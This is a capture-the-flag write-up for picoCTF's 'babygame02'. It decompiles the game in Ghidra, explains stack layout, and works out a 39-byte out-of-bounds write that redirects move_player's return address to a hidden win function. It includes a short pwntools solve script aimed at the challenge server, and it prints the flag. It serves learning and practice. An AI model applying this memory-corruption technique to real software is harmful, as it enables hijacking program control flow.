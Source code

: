 # babygame02

## Method

```
Break the game and get the flag.
Welcome to BabyGame 02! Navigate around the map and see what you can find! The game is available to download here.
There is no source available, so you'll have to figure your way around the map. You can connect with it using nc saturn.picoctf.net 59056.
```
**Hint1:** Use 'w','a','s','d' to move around. There may be secret commands to make your life easy.


Similar challenge as to babygame01 grid like structure moving to the final location for the flag but not recieving it.

I shoved it into ghidra like before to see how I could solve it. 

```c
undefined4 main(void)

{
  int iVar1;
  int local_aa8;
  int local_aa4;
  undefined local_a9d [2700];
  char local_11;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  init_player(&local_aa8);
  init_map(local_a9d,&local_aa8);
  print_map(local_a9d,&local_aa8);
  signal(2,sigint_handler);
  do {
    do {
      iVar1 = getchar();
      local_11 = (char)iVar1;
      move_player(&local_aa8,(int)local_11,local_a9d);
      print_map(local_a9d,&local_aa8);
    } while (local_aa8 != 0x1d);
  } while (local_aa4 != 0x59);
  puts("You win!");
  return 0;
}

```
Glancing at the c function its similar but with 1 glaring issue. We do not have the supposed Test condition for printing the flag.

However it seems the initilizations etc are still the same.
Looking again at the functions like ``init_player`` and ``init_map`` we realise its similar even ``move_player`` they have provided the same function which we can use to cause underflows in the game, This is due to the ``map_buf[(player_y_pos * 0x5a) + player_x_pos)] = player_title;`` where the value player_title that gets written at the calculated position. **However in this the move_player() function clears the previous position (using '.') before writing the new position meaning we need to find a specific location to overwrite a address directly.**

investigating all functions we finally see the win funciton however it seems as though from our C function there is no possible way to go to it ;-;

---

**Note:**

As discussed before in babygame01 we know memory here is used in the form of a stack where it grows 'downwards' in the memory meaning address decreases as we add more things. Each function has it's own stack frame.

For this stack we have two things ESP (Stack Pointer) and EBP (Base Pointer)

1. ESP (register) the stack pointer points to the top of the stack or the most recently entered value.

2. EBP(register) Serves as a fixed reference point for the current Stack being used.

We also have general purpose registers liek EAX, EBX etc...

---

`` address opcodes(operations) operation function ``
The decompiled assembly in ghidra has this format ^ 

*Note:*

- LEA = Load Effective Address (calculates new address loading it in a register)
- PUSH = pushes a new value onto the stack
- Mov = transfers data from one location to another

---


Win function ->

![image](https://github.com/user-attachments/assets/1a18a1dc-73c7-452f-855b-312ed4555663)

### Coming up with a solution now

Considering the previous game we can traverse acrossss the memory byte by byte And we can change one byte anywhere in the stack with the name of the player as shown before. The easiest way to go about this is changing the move_player's return address to be to the win function's address which is around  ``0804975d`` or greater 

From this we can understand a certain bytes workflow on how to possibly traverse to it.

Looking at main first we start calculating the number of bytes from main first.

![image](https://github.com/user-attachments/assets/95597c34-fa3c-4d93-b1e7-a3be4aa37439)

Statements before this used to setup the stack.

```asm
        0804967e 55              PUSH       EBP
        0804967f 89  e5           MOV        EBP ,ESP
        08049681 53              PUSH       EBX
        08049682 51              PUSH       ECX
        08049683 81  ec  a0       SUB        ESP ,2720
                 0a  00  00
```

Then we can Start looking at move_player

![image](https://github.com/user-attachments/assets/8b014747-64be-43b4-8333-dfe0ca0bc57f)

```asm
        080496f2 83  ec  04       SUB        ESP ,4
        080496f5 8d  95  6b       LEA        EDX => local_a9d ,[EBP  + -2709 ]
                 f5  ff  ff
        080496fb 52              PUSH       EDX
        080496fc 50              PUSH       EAX
        080496fd 8d  85  60       LEA        EAX => local_aa8 ,[EBP  + -2720 ]
                 f5  ff  ff
        08049703 50              PUSH       EAX
        08049704 e8  6b  fd       CALL       move_player                                      undefined move_player(undefined4
                 ff  ff
```

```
EBP // 4 bytes
EBX // 4 bytes
ECX // 4 bytes
^
|
| 2720 Bytes
v
sub 4 // 4 bytes
param EDX (EBP - 2709) // 11 bytes
param EAX // 4 bytes
dont care about param EAX (EBP - 2720) // 0 bytes refers to existing offset
param local_aa8 // 4 bytes
return address (08049709) // 4 bytes
```

From here we start calculating the number of bytes for each statement

- 4 x 3 for the first 3 Lines

- We consider 4 btytes for the sub 4

- Then we have to consider the fact that we move 2709 back up which is 11 bits from the already moved 2720 

- We can then consider 4 x 3 for the last 3 statements for the return address

Adding all of this we get 39 bytes. Meaning we need to underflow 39 bytes from the buffer Array

However after about 4 movements left the program crashed with SIGSEGV (segmentation fault). To which i can assume i had overwritten something important on the stack due to what the player does now hence why it had crashed. As each time we move the player it seems to change the value to ``.`` then move hence overwritting important stuff on the stack. To avoid this i move once up an extra time before moving to the required offset

I then proceeded to change the name of the player to the value that i want to traverse through Looking at the win condition I can understand that i must traverse to the ``08049770`` or any number above that. Like the previous challenge where we had ``@`` there to write to least significant LSB of the register so again we have to do the same this time pointing it directly to 70. In hex 70 to ascii is ``p`` hence we can change the name to p this allows us to underflow whatever comes next with the lsb 70 moving us to it. **P.S I tried values of ``5d`` to 70 but none worked for me and upon trying 70 worked.**

Now from here I underflow 39 bytes (moving me into the return address). After this accounting for the fact that i had to move up an extra once to avoid a fault i can then move down once. Which then returns my flag :D

Script for insta solve:

```python
from pwn import *

p = remote("saturn.picoctf.net", 59056)

p.sendline("aaaawwwww")
p.sendline("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
p.sendline("lp")
p.sendline("s")

p.interactive()
```

## Flag

> picoCTF{gamer_jump1ng_4r0unD_227ec6b0}
